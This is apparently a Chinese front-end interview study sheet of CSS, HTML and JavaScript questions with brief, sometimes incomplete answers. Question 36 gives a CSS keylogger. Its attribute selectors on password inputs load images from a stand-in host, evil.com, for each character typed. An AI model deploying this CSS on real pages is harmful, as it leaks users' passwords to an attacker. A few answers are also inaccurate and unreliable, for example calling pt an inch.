# 25、scroll-snap-align属性的应用场景是什么？

这个属性设置后，会一个块被滚了一部分中途松手了之后，页面自动滚回去或者滚到下一个块

使用：

ul {
  scroll-snap-type: y mandatory;
}

li {
  scroll-snap-align: start; // end center
}


# 26、如何用css实现把“我不爱996”变成“699爱不我”？

direction: rtl;
unicode-bidi:bidi-override;

# 27、举例说明你对指针事件（pointer-events）的理解

pointer-events css属性指定在什么情况下，某个特定的图形元素可以成为鼠标事件的target
当 pointer-events 为 none 时，比如 a 链接不再生效；

# 28、鼠标事件css的:hover和js的mouseover有什么区别？


    :hover为CSS伪类，mousehover为JS DOM事件。

    CSS只能改变元素样式，JS既可以改变元素样式又可以改变元素中的内容。

    :hover当鼠标移出后恢复之前的样式，mouseover需要结合mouseout才能恢复之前的样式

    同等效果下，从性能上讲，:hover优于mousehover

    水平有限只能想到这些，希望能抛砖引玉，向大牛们多多学习


# 29、使用css的attr()写一个类似a标签title的提示框

html

# 30、举例说明如何从html元素继承box-sizing？

*, *::before, *::after {
  box-sizing: inherit;
}

html {
  box-sizing: border-box;
}

# 31、异步加载CSS的方式有哪些？

旧：
js动态插入link标签

在link标签上设置media属性为低优先级的 print,文档渲染后改为screen

新:
<link rel="preload" href="cssfile.css" as="style" onload="this.rel='stylesheet'">
改rel值，只有谷歌完美兼容

# 32、css的加载会阻塞DOM树解析和渲染吗？为什么？

css加载不会阻止dom数的解析，但是会阻止dom树的渲染，因为css下载完成后解析成cssom与dom生成渲染数后，页面才会渲染，绘制出来

# 33、css的加载会阻塞js运行吗？为什么？

会阻塞js的运行，因为js可能会去获取或者改变元素样式，所以浏览器为了不重复渲染，等所有css加载渲染完成后再执行js

# 34、为了减小css文件的大小，怎么去除无用css呢？有哪些方法？

使用 purgeCss 插件进行清理

# 35、在一个项目里，你是如何组织(架构)css代码的？

todo

# 36、使用纯css能否监控到用户的一些信息？怎么实现？

可以，著名的css keylogger：

input[type="password"][value$="a"] {
  background-image: url("http://evil.com/api/a");
}

input[type="password"][value$="b"] {
  background-image: url("http://evil.com/api/b");
}

input[type="password"][value$="c"] {
  background-image: url("http://evil.com/api/c");
}

# 37、请使用css3实现图片的平滑转换

以全局监听的方式通过 a 标签的描点进行 view 动态切换页面，只要把 a 标签带有 id 的 href 属性的值指到锚点，用 CSS3 的动画进行切换页面.

# 38、使用css画个钟表的时间刻度

思路：定义一个钟表的大小位置，用absolute

从 1点到12点用 ul li，每个li用 nth-child 来控制位置，角度用transform，然后分钟的刻度也是照样子分别控制位置，要用48个li

# 39、ui设计中px、pt、ppi、dpi、dp、sp之间的关系？

px 电子屏幕上组成一幅图画或者照片的基本单元
pt 英寸
ppi 英寸像素数
dpi 每英寸多少点
dp 安卓开发用的长度单位
sp 安卓开发用的字体大小单位

# 40、举例说明shape-outside的属性的用途有哪些？

shape-outside 定义了一个可以是非矩形的形状，相邻的内联内容应围绕该形状进行包装 

shape-outside：circle() 属性可以实现文字圆形环绕图片效果

# 41、用css3画出一个立体魔方

todo

# 42、如何重写行内样式？方法有哪些（至少两种）？

1、！important
2、var divStyle = document.querySelector('#div').style // 修改属性

# 43、有哪些标签是不支持伪元素的？

伪元素有：

::after 
::before
::first-letter
::first-line

::selection
::backdrop

img input iframe 不支持这样用的，因为需要这些元素是可以插入内容的


# 44、请使用纯css实现波浪效果

todo

# 45、请问class与[class=xxx]的区别是什么？两者是否等价？

不等价
class是类选择器，可以作用于任何dom元素
[class=xxx]是属性选择器，只能作用于特定类型的dom元素

# 46、为什么说对opacity进行动画要比box-shadow进行动画性能更好呢？

opacity不会影响布局，也需要重绘

# 47、能不能使用纯css使你的浏览器卡死？怎么实现？

可以，用计算属性calc、变量

# 48、如何使用css实现鼠标跟随？

其实很多 CSS 效果，都离不开 障眼法 二字。要监测到当前鼠标处于何处，我们只需要在页面上铺满元素即可：

https://www.php.cn/css-tutorial-453627.html

# 49、你有使用过css的属性background-blend-mode吗？说说它的运用场景有哪些？

背景混合模式

可以是背景图片与背景图片的混合，

也可以是背景图片和背景色的之间的混合。

https://blog.csdn.net/dwb123456123456/article/details/84563367

# 50、用css3实现文字发光的效果

text-shadow：0 0 10px #fff,
0 0 20px #fff,
0 0 30px #fff,
0 0 40px #00a67c,

周级综合题目（50）

# 1、你所在的团队有规范吗？举例说明都定义了哪些规范？

1、命名使用驼峰命名法；
2、项目使用ts强语法编写；
3、代码风格使用eslint检测；
4、编写的纯函数使用函数式编程；
5、遥遥无期的单元测试。。。

# 2、请描述下null和undefined的区别是什么？这两者分别运用在什么场景？

null 是“空值”，表示某个对象/资源并不存在

undefined 是指一个属性或变量还未赋值。

# 3、CSS的伪类和伪对象有什么不同？

    伪类：我们常用的比如，hover，focus等，我认为伪类是为了弥补选择器的不足。还有伪类选择器，比如first-child,nth-child.
    伪元素 : ::before ::after 是为了创建一个dom元素，使用content属性指定要插入的内容。content必须有值（空值也行）。还有 伪元素选择器，比如 first-line first-letter

# 4、请描述下元素的href和src有什么区别？

1.概念不同
href用于在当前文档和引用资源之间确立联系
src用于将资源替换当前元素
2.解析方式不同
href解析时，会并行下载资源且不会停止当前文档处理
src解析时，会暂停当前文档处理

# 5、浏览器在什么情况下会出现“已拦截弹窗式窗口”？怎么解决？

已拦截弹窗式窗口出现的原因是你想打开一个页面，但是这个页面并不是通过你的点击事件实现，而是已其他方式出现的。
使用模拟点击事件，

<script>
    setTimeout(function() {
       window.open('https://www.baidu.com');
    }, 300);
</script>


<script>
    function opens() {
        window.open('https://www.baidu.com');
    }
    document.body.addEventListener('click',opens); // 主动点击不被拦截
   // 模拟点击被拦截
   setTimeout(function () {
        document.body.dispatchEvent(new Event('click'));
    }, 500);
</script>

# 6、解释下为什么{} + [] === 0为true？

那个 {} 是空语句块而非空对象，{} 认定是语法块， 这个放在前面，只有混淆作用，并不参与运算。

{} + [] === 0

+[] === 0

0 === 0 

true

# 7、移动端的布局用过媒体查询吗？写出例子看看

@media(min-width: 501px) and (max-width: 901px) {
	body {
		color: red;
	}
}

# 8、简要描述下什么是DNS？它有什么用？


Domain Name System 域名系统
它将域名映射到 IP 地址。

解析域名,可以用来将 好记的网址 解析为 不好记的 IP地址

# 9、js的函数有哪几种调用形式？

- 自调用 (function())();
- 直接调用 fn()
- 做为对象的属性调用 obj.fn()
- 使用构造函数调用
new fn()
- 使用call或apply调用
fn.call() || fn.apply()

fn(arg1, arg2, ...)
fn.call(thisArg, arg1, arg2, ...)
fn.apply(thisArg, [arg1, arg2, ...])

其中，call 和 apply 使得函数内的 this 被绑定到 thisArg 上。

# 10、写出div在不固定高度的情况下水平垂直居中的方法？

1、flex

 .tith1 {
    display: flex;
    justify-content: center;
    align-items: center;
    background: red;
  }

  2、table

  text-align: center;
  width: 100%;
  display: table;

  3、

父盒子相对定位
子盒子绝对定位:
  position:absolute;
left:50%;
top:50%;
transform:translate(-50%,-50%);


父盒子相对定位，子盒子绝对定位和margin
position:absolute;
left:0;
top:0;
right:0;
bottom:0;
margin:auto;

# 11、有使用过svg吗？请用svg画一个圆

<svg width="50" height="50">
    <circle cx="25" cy="25" r="10" fill="black" />
</svg>

# 12、说说你对emoji表情的理解，前端如何处理emoji表情？它的运用场景有哪些？

说一个使用emoji遇到的问题吧，如果前端使用emoji保存入库，服务器使用mysql的情况下需要设置对应的字符集为【utf8mb4】支持该表情 。


# 13、用js写出死循环的方法有哪些？

无结束条件
递归


while

while (true) {

}

for

for (;;) {

}

# 14、为什么会出现浮动？在什么时候需要清除浮动呢？

1.为了实现文字环绕图片效果
2.父容器的高度塌陷时候,需要清除浮动

# 15、使用HTML5需要遵守哪些设计原则？

避免不必要的复杂性

支持已有内容

解决现实的问题

内容模型

平稳退化

# 16、你知道什么是图片防盗链吗？防盗链怎么实现呢？说说你的方法

盗链 是指在自己的页面上展示一些并不在自己服务器上的内容。通常的做法是通过技术手段获得它人服务器上的资源地址，绕过别人的资源展示页面，直接在自己的页面上向最终用户提供此内容。

防盗链 就是防止盗链。

# 17、分别写出数组的交集、并集、差集、补集这四个方法

const intersect = (a, b) => a.filter(i => b.includes(i)) // 交
const exclude = (a, b) => a.filter(i => !b.includes(i)) // 差
const union = (a, b) => exclude(a, b).concat(b) // 并
const unionAll = (a, b) => a.concat(b) // 重复并
const xor = (a, b) => exclude(a, b).concat(exclude(b, a)) // 补

# 18、当一个元素被设置为浮动后，它的display值变为什么呢？

一个元素被设为绝对定位或者浮动后，其display计算值就变为了block，尽管其表现形式和inline-block类似——包裹内部元素且不超出包含块的特性。按照如下方式在控制台尝试可验证：

var span = document.createElement('span');
document.body.appendChild(span);
console.log('1.' + window.getComputedStyle(span).display);
span.style.float = 'left';
console.log('2.' + window.getComputedStyle(span).display);
输出：
1.inline
2.block

# 19、HTML5标准提供了哪些新的API？你有用过哪些？


    两个选择器API
        document.querySelector()
        document.querySelectAll()
    地理定位API
        getCurrrentPosition()
    多媒体API
        <video></video>
        <audio></audio>
    拖放

<div ondrop="drop(event)" ondragover="allowDrop(event)"></div>
<div draggable="true" ondragstart="drag(event)"></div>

    文件
    window.requestFileSystem()
    XHR2

var xhr = new XMLHttpRequest();
xhr.open("POST", "@Url.Action("Upload")")

    本地存储API
        localStorage
        sessionStorage

    canvas

<canvas id="myCanvas" width="200" height="100">

    svg

<svg xmlns="http://www.w3.org/2000/svg" version="1.1">
   <circle cx="100" cy="50" r="40" stroke="black" stroke-width="2" fill="red" />
</svg>

# 20、说说你对Git的branch, diff, merge的理解？

branch git分支相关操作，可用于查看、新建、删除分支以及分支的重命名操作
diff 用于对比两次修改的差异 可以通过自定义参数来指定对比哪两次修改
merge 用于合并分支或者某次提交 一般用于将分支或修改的内容合并到master上
三者都是git的基本操作指令

# 21、要实现一个js的持续动画，你有什么比较好的方法？

requestAnimationFrame，浏览器专门为js动画提供的API。

# 22、行内css和important哪个优先级高？

!important 

# 23、写出以下几个HTML标签：字体、居中、文字加粗、下标

现在这些标签都有相应的CSS属性进行设置了吧
字体：font
居中：text-align: center
文字加粗：font-weight: bold
下标：vertical-align:sub

# 24、你认为前端工程师应该分为哪些级别呢？说说你的看法

切图仔，页面仔，X架构,全栈，CTO

# 25、写例子说明如何给li绑定事件（ul下有1000+个li）？

$el.addeventlistener('click', function(e) {
	console.log(e.target)
})

# 26、如何更改placeholder的字体颜色和大小？

input::-webkit-input-placeholder {
      color: red;
    }

# 27、Doctype有什么作用？你知道有多少种Doctype文档类型吗？

用于标识该文件编写是基于哪个HTML版本的语法。

<-- html5-->
<!DOCTYPE html>

<-- html4-->
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Frameset//EN" 
"http://www.w3.org/TR/html4/frameset.dtd">


DOCTYPE声明指定了浏览器对于HTML文档解析的类型；

    HTML5的DOCTYPE只有一种：

<!DOCTYPE html>

    HTML4.01的DOCTYPE有三种：Strict，Transitional和Frameset；

# 28、不查资料，你会手写正则吗？

https://github.com/haizlin/fe-interview/issues/974


    ^：匹配以...开头的的字符串
    $：匹配以...结尾的的字符串
    ^和$同时使用：精确匹配
    []：匹配字符组的一个列表

# 29、说说你理解的同步和异步的区别是什么？

同步就是上一个任务结束下一个任务再开始，比如alert弹窗，你不点击确定他就会阻塞后边代码的执行；
异步就是按顺序开始（不可能同时开始）但是不一定按顺序结束，比如图片的加载就是走的异步。

# 30、移动端微信页面有哪些兼容性问题及解决方案是什么？

1.rem方案通过 reset js 进行适配
2.vw 方案 搭配px to viewport进行适配

# 31、列举出你最常用的meta标签的写法和作用 

背下来：https://github.com/haizlin/fe-interview/issues/971

# 32、你有用过单例模式吗？主要运用场景有哪些？

todo

# 33、不用第三方库，说说纯js怎么实现读取和导出excel？

 let blob = new Blob([res.data],{type: "application/vnd.openxmlformats-officedocument.spreadsheetml.sheet"});
            let a = document.createElement('a')
            a.download = 'XXX.xlsx'
            a.href =URL.createObjectURL(blob) 
            document.body.appendChild(a)
            a.click()

# 34、你对视网膜(Retina)分辨率有了解吗？有没有在实际中使用过？

Retina分辨率指的是屏幕的物理分辨率达到了使得人眼难以看到单个物理像素；

具体应用应该就是dpr > 1的屏幕适配，需要根据不同dpr给出合适尺寸的图片；

设备像素比（dpr） = 设备像素（分辨率）/ 设备独立像素（屏幕尺寸）

# 35、HTML5的页面可见性（Page Visibility）有哪些应用场景？

document.visibilityState属性

产生的原因:

    不能触发unload,pageHide事件的时候，比如：
    手机端切换到最近任务界面,点击另一个APP,
    手机端直接按home键返回主屏幕;
    PC端最小化,



    停止与服务器的轮询
    停止页面音视频


属性值：字符串

  hidden：页面彻底不可见。
  visible：页面至少一部分可见。

触发的事件：

 document.onvisibilitychange
 document.addEventListener('visibilitychange',  ()=> {
  // 用户当前页面不可见（离开或者后端或者最小化，或者页签切换）
  if (document.visibilityState === 'hidden') {
    document.title = '页面不可见';
  }

  // 用户打开或回到页面
  if (document.visibilityState === 'visible') {
    document.title = '页面可见';
  }
});

页面卸载：
	
    页面可见时，用户强制关闭 Tab 页。
    页面可见时，（tab页签切换）。
    页面不可见时，用户或系统关闭浏览器窗口。

https://github.com/haizlin/fe-interview/issues/975


# 36、你有画过流程图吗？用过什么软件？开始和判定分别用什么图形表示？

processon。  开始使用圆角矩形，判定使用菱形。

# 37、分别封装精确运算的加减乘除四个方法

这个是真的难

https://github.com/haizlin/fe-interview/issues/981

# 38、如何让大小不同的图片等比缩放不变形显示在固定大小的div里？写个例子



    图片等比缩放 img{ object-fit: cover/contain;}

    div宽高比例固定，跟随屏幕变化而变化，利用padding垂直方向的属性来实现


# 39、 HTML5怎么为输入框添加语音输入的功能呢？

<input type=”text” speech x-webkit-speech />

非h5规范，服务需要走google的服务器

# 40、你有自己买过服务器和域名用来搭建博客或者网站吗？

# 40、不依赖第三方库，说下如何使用js读取pdf？

这个题目有两种解读：

    前端不使用第三方库，如何将 PDF 文件显示在网页上。
        现代桌面浏览器都自带 PDF viewer 插件的，用 <iframe src="file.pdf"> 就能显示。（embed应该也可以）

    前端不使用第三方库，如何读取并解析 PDF 格式，利用 HTML 技术渲染 PDF 文件内容？
        这个就是 pdf.js 干的事情。思路是使用 FileReader API 读取文件二进制内容，根据 PDF 文件规范解析内容（PDF 是开源格式），根据 PDF 文件描述的文档内容和布局，用 canvas 或者 DOM 展现出来。内嵌的 font 或图片可以提取二进制然后用 blob URL 搞定，难点是如何用 DOM 实现 PDF 格式描述的布局 (不清楚 PDF 是如何描述布局的)。

# 41、说说你对前端二倍图的理解？移动端使用二倍图比一倍图有什么好处？

二倍图是指单位面积下设备像素与css像素个数之比为 4 的位图。

移动端使用二倍图可以在Retina屏幕下保真展示。

# 42、说说你对accesskey的理解，举例说明它有什么运用场景？

制定快捷键触发对元素绑定的事件

# 43、进程与线程有什么区别？JS的单线程带来哪些好处？

一个程序必定包含>=1个进程，
一个进程必定包含>=1个线程，
进程之间不共享内存，每多一个进程就要多分配一定的内存。
多个线程共享内存，因此多线程可以提高程序的并发性。

JS单线程带来的好处：

JS主要是面向浏览器的，因此是和用户实时交互的，如果多线程执行的话，你无法确定同时开始的任务哪个会先结束，以网页加载为例，可能导致网页HTML结构已经加载好，但是CSS样式还未加载完成，导致用户浏览体验差。或者两个线程同时对一个DOM结点进行修改和删除操作，则无法判断以哪个线程为准。

# 44、准确说出'1,2,3,4'.split()的结果是什么（包括类型和值）？

运行结果为 ["1,2,3,4"]，是一个长度为1的Array，元素类型为String。
关于split函数，其可以接受两个参数，第一个参数是字符串或正则表达式，从该参数指定的地方分割 stringObject；但是第二个参数并不是说限制分割次数，而是限制返回Array的最大长度，举个例子：

let a = '1,2,3,4,5,6';
a.split(',', 3);  // 返回的结果为 ["1", "2", "3"]
a.split(',', 5);  // 返回的结果为 ["1", "2", "3", "4", "5"]

# 45、你是如何规划响应式布局的？

从项目角度来讲，
PC 和 Mobile 是一个项目还是两个项目；

从方法流派来讲，
有栅栏布局，固定 viewport，使用 rem/pt/vw 单位，使用定位百分比，修改为 rem/vw 单位，五种；

从文件结构来讲，
是独立为响应布局专用 css 文件，还是跟随组件一起；

其他细节，
用 flex-grow 的地方，用 % 的地方，用 em 的地方

# 46、行内元素、块级元素、空(void)元素分别有哪些？

行内元素

a, b, input, span, label, button, textarea...
块级元素

div, form, table, h1...h6, p
空元素

img, input, hr, br, meta, source,track

# 47、请列举出多种减少页面加载时间的方法 


缓存利用： 缓存 Ajax，使用 CDN、外部 JavaScript 和 css 文件缓存，添加 Expires 头，在服务器端配置 Etag，减少 DNS 查找等。
• 请求数量．合并样式和脚本，使用 css 图片精灵，初始首屏之外的图片资源按需加载，静态资源延迟加载。
• 请求带宽：压缩文件，开启 GZIP 。
• css 代码：避免使用 css 表达式、高级选择器、通配选择器 。
• JavaScript 代码：用散列表来优化查找，少用全局变量，用 innerHTML 代替 DOM 操作，减少 DOM 操作次数，优化 JavaScript 性能，用 setTimeout 避免页面失去响应，缓 存 DOM 节点查找的结果，避免使用 with (with 会创建自己的作用域， 增加作用域链的 长度），多个变量声明合并。
• HTML 代码：避免图片和 iFrame 等 src 属性为空 。 src 属性为空，会重新加载当前页面 ， 影响速度和效率 ， 尽量避免在 HTML 标签中写 Style 属性。


https://github.com/haizlin/fe-interview/issues/995


# 48、你是如何更好地处理Async/Await的异常的？

https://github.com/haizlin/fe-interview/issues/994

# 49、说说你对低版本IE的盒子模型的理解

IE盒子模型的宽高为content、padding、border之和

box-sizing: content-box; => W3C盒子宽高为content的宽高； 

box-sizing: border-box; => IE盒子宽高

# 50、请描述一下cookies、sessionStorage和localStorage的区别？

    cookie：存放于浏览器中的数据；常用于会话管理，用户设置，行为跟踪等。在js中可以通过document.cookie来进行设置，获取或删除等操作；不过cookie有许多明显的缺点：
        cookie的大小限制在4KB；
        cookie会伴随http请求一起被发送，会浪费网络带宽
        cookie的正确操作比较困难
    webStorage：H5新增的API，数据存放于客户端本地内存中；sessionStorage和localStorage操作一致，而sessionStorage的有效期限为一次session会话（即一个tab页从打开到关闭之间的时间段），localStorage是没有失效时间的（即永久保存，删除需要手动处理）；

# 算法题


1、

2、

3、















